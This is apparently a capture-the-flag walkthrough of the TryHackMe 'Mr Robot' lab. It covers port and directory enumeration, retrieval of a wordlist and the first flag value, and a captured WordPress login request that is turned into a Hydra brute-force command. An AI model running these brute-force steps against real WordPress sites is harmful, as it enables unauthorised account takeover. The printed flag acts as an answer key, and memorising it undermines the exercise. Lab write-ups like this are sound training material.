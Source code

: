 https://tryhackme.com/room/mrrobot

**Basic enumeration**

    22/tcp  closed ssh
    80/tcp  open   http     Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Apache
    443/tcp open   ssl/http Apache httpd
    |_http-title: Site doesn't have a title (text/html).
    | ssl-cert: Subject: commonName=www.example.com
    | Not valid before: 2015-09-16T10:45:03
    |_Not valid after:  2025-09-13T10:45:03
    |_http-server-header: Apache

So it looks like we are working with a standard webserver so we should start to more enumerations

    gobuster dir -u http://10.10.237.76/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php

    nikto -h 10.10.237.76  
    
We find a robots.txt file so we should investigate that:

    User-agent: *
    fsocity.dic
    key-1-of-3.txt
    
    └─# cat key-1-of-3.txt 
    073403c8a58a1f80d943455fb30724b9

Lets also grab that .dic file

    wget http://10.10.237.76/fsocity.dic   

That is a big file! let us take a look at some of the entries

        └─# head fsocity.dic                                                                          
    true
    false
    wikia
    from
    the
    now
    Wikia
    extensions
    scss
    window
    
    └─# wc -l fsocity.dic 
    858160 fsocity.dic
    
    └─# sort -u fsocity.dic > sorted.dic

    └─# wc -l sorted.dic
    11451 sorted.dic

Whew that is much more reasonable to workwith, My bet is that this is a password/username list

**Initial Foothold**
    
Naviagate to the following url based on the gobuster scan
        http://10.10.237.76/wp-login
        
Pulling up burpsuite lets capture the request for a log in and feed that to hydra for some online brute forcing

        POST /wp-login.php HTTP/1.1

        Host: 10.10.237.76

        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

        Accept-Language: en-US,en;q=0.5

        Accept-Encoding: gzip, deflate

        Content-Type: application/x-www-form-urlencoded

        Content-Length: 103

        Origin: http://10.10.237.76

        Connection: close

        Referer: http://10.10.237.76/wp-login

        Cookie: s_cc=true; s_fid=30B417277AC07EA9-1832D8BCFA333922; s_nr=1661289741763; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check

        Upgrade-Insecure-Requests: 1



        log=user&pwd=passpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.237.76%2Fwp-admin%2F&testcookie=1

         
Alright we have a post form here, so we can now shape our hydra command

        hydra -L sorted.dic -p notarealpassword 10.10.237.76 http-post-form "/wp-login.php:log=user&pwd=passpass&wp-submit=Log&testcookie=1:Invalid"

-L is the list we will use for the username

-p is the single password to be used

http-post-form = the type of attack to perform

 "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log&testcookie=1:Invalid" = Path of webiste, POST body information, fail conditions (txt)
